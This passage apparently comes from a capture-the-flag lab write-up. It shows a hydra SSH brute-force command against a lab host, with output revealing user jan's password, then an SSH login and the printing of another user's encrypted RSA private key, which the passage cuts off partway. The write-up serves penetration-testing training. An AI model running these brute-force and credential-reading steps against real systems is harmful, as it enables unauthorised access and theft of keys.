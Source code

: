 ## Gaining Initial Access

### Brute-Forcing SSH Credentials

The `j.txt` file hints at a user with weak credentials. Coupled with the SMB findings, we identify potential users:
`jan`
and `kay`.

Using `hydra`, we attempt to brute-force SSH credentials for `jan`:

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.198.84 ssh
```

Hydra output:

```bash
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-31 22:00:14
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://10.10.198.84:22/
[STATUS] 166.00 tries/min, 166 tries in 00:01h, 14344233 to do in 1440:12h, 15 active
[STATUS] 130.33 tries/min, 391 tries in 00:03h, 14344008 to do in 1834:17h, 15 active
[STATUS] 109.43 tries/min, 766 tries in 00:07h, 14343633 to do in 2184:38h, 15 active
[22][ssh] host: 10.10.198.84   login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-01-31 22:07:24
```

With the credentials `jan:armando`, we establish an SSH session:

```bash
ssh jan@10.10.198.84
```

Within `jan`'s home directory, we find limited information. However, navigating to `/home/kay/` reveals a hidden SSH
directory:

```bash
jan@basic2:/tmp$ ls -al /home/kay/.ssh
total 20
drwxr-xr-x 2 kay kay 4096 Apr 23  2018 .
drwxr-xr-x 5 kay kay 4096 Apr 23  2018 ..
-rw-rw-r-- 1 kay kay  771 Apr 23  2018 authorized_keys
-rw-r--r-- 1 kay kay 3326 Apr 19  2018 id_rsa
-rw-r--r-- 1 kay kay  771 Apr 19  2018 id_rsa.pub
jan@basic2:/tmp$ cat /home/kay/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,6ABA7DE35CDB65070B92C1F760E2FE75

IoNb/J0q2Pd56EZ23oAaJxLvhuSZ1crRr4ONGUAnKcRxg3+9vn6xcujpzUDuUtlZ
o9dyIEJB4wUZTueBPsmb487RdFVkTOVQrVHty1K2aLy2Lka2Cnfjz8Llv+FMadsN
XRvjw/HRiGcXPY8B7nsA1eiPYrPZHIH3QOFIYlSPMYv79RC65i6frkDSvxXzbdfX
AkAN+3T5FU49AEVKBJtZnLTEBw31mxjv0lLXAqIaX5QfeXMacIQOUWCHATlpVXmN
lG4BaG7cVXs1AmPieflx7uN4RuB9NZS4Zp0lplbCb4UEawX0Tt+VKd6kzh+Bk0aU
hWQJCdnb/U+dRasu3oxqyklKU2dPseU7rlvPAqa6y+ogK/woTbnTrkRngKqLQxMl
```